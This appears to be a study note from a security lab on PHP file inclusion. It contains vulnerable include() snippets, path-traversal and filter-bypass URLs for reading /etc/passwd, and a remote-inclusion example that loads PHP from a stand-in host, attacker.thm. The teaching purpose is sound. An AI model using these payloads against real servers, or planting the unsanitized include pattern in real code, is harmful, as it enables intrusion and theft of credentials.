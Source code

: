 # File Inclusion

## 🔍 Overview
- File Inclusion vulnerabilities allow attackers to include files, usually through the web browser.
- Two main types:
  - Local File Inclusion (LFI): Include files already on the server.
  - Remote File Inclusion (RFI): Include files from remote locations.
- Can also exploit Directory Traversal to access sensitive files outside the web root.

## 🧩 Why File Inclusion Happens
- Caused by unsanitized user input in file handling functions (e.g., include, require, file_get_contents).
- Often found in PHP and similar languages when input is not validated.

## ⚠️ Risks
- Read sensitive files like /etc/passwd.
- Leak credentials or system information.
- Gain Remote Code Execution (RCE) when combined with write access or RFI.
- Expose SSH keys, mail, logs, etc.

## 🔐 Common Targeted OS Files
| File                          | Description                                    |
|------------------------------|------------------------------------------------|
| /etc/passwd                  | User account info                              |
| /etc/shadow                  | Password hashes                                |
| /var/log/apache2/access.log  | Web server logs                                |
| /proc/version                | Kernel version info                            |
| C:\boot.ini                 | Boot config on Windows                         |

![image](https://github.com/user-attachments/assets/264fcf24-a71b-4be3-a9f2-711e6ccbd925)

## 🧪 Types of File Inclusion Exploits

### Local File Inclusion (LFI)
1. Basic LFI (No Directory Constraints)
<?php 
    include($_GET["lang"]);
?>
PoC:
http://webapp.thm/index.php?lang=/etc/passwd

2. LFI with Directory Restriction
<?php 
    include("languages/" . $_GET['lang']); 
?>
PoC:
http://webapp.thm/index.php?lang=../../../../etc/passwd

3. Black Box Testing with Error Disclosure
Error Hint:
include(languages/THM.php);
PoC (Path Traversal):
http://webapp.thm/index.php?lang=../../../../etc/passwd
PoC with Null Byte (for older PHP < 5.3.4):
http://webapp.thm/index.php?lang=../../../../etc/passwd%00

4. Bypassing Filters (Keyword Filtering)
Tricks:
- Use /etc/passwd/. (current directory trick)
- Use /etc/passwd%00 (null byte)
- Replace ../ with ....// as PHP filter only matches and replaces the first subset string ../ it finds and doesn't do another pass
- Eg: http://webapp.thm/index.php?lang=....//....//etc/passwd

5. Forced Directory Prefix
PoC:
http://webapp.thm/index.php?lang=languages/../../../../etc/passwd

### Remote File Inclusion (RFI)
- Remote File Inclusion (RFI) is a technique to include remote files into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. One requirement for RFI is that the allow_url_fopen option needs to be on.
- The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

#### How it works
The attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message Hello THM, <?PHP echo "Hello THM"; ?>

- First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. 
- If there is no input validation, then the malicious URL passes into the include function. 
- Next, the web app server will send a GET request to the malicious server to fetch the file. 
- As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

## 🛡️ Mitigations
- Sanitize and validate all user input.
- Disable allow_url_fopen, allow_url_include.
- Use whitelisting for allowed files/paths.
- Keep PHP and frameworks up to date.
- Turn off verbose error messages in production.
- Deploy a Web Application Firewall (WAF).
